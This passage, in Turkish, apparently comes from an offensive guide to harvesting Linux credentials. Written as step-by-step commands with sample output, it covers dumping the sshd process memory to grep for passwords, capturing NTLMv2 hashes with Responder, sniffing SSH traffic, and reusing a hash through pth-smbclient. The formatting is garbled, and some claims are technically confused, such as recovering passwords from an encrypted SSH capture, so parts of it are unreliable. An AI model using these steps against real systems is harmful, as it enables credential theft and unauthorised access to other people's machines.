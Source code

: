 - b) gcore ile Process Dump Alıp Hash Çekme
Bir Linux kullanıcısı sistemde oturum açtıysa, hashlerini çalışan bir süreçten çekebilirsin.
### 1. SSH veya diğer süreçleri bul:
```bash
bash
ps aux | grep sshd
```
- Çıktı:
```bash
yaml
```
root  1234  0.0  0.1  123456 7890 ? Ss  10:00 0:00 /usr/sbin/sshd
### 2. Process dump al:
```bash
bash
gcore -o dumpfile 1234
```
### 3. Dumpe bak:
```bash
bash
strings dumpfile | grep -i password
```
- Çıktı:
```bash
nginx
```
somepassword
- Bu yöntemle açık parolalar yakalanabilir.

## 4. Linux Hashlerini Ağdan Çekme (MITM Saldırıları)
Eğer bir Linux sistemine fiziksel erişimin yoksa, ağ üzerinden hashleri almak için şu yöntemleri kullanabilirsin:
- a) Responder ile Hash Yakalama
Eğer ağda bir SMB isteği yakalarsan, NTLMv2 hashlerini alabilirsin.
```bash
bash
```
responder -I eth0
- Çıktı:
```bash
pgsql
```
NTLMv2 Hash Captured: admin::DOMAIN:11223344556677889900AABBCCDDEEFF
- b) tcpdump ile SSH Trafiğini Dinleme
```bash
bash
tcpdump -i eth0 port 22 -w ssh_traffic.pcap
```
Bu dosyayı Wireshark ile açarak hash veya parolaları çıkarabilirsin.

## 5. Linux Hashlerini Kullanarak Yetki Yükseltme
Eğer hashleri aldıysan, onları Pass-the-Hash (PTH) saldırısında kullanabilirsin.
- pth-smbclient ile Hash Kullanarak Kimlik Doğrulama
```bash
bash
pth-smbclient -U "admin%aad3b435b51404eeaad3b435b51404ee" //192.168.1.100/c$
```
Bu yöntem, parolayı kırmadan doğrudan hash kullanarak giriş yapmanı sağlar.
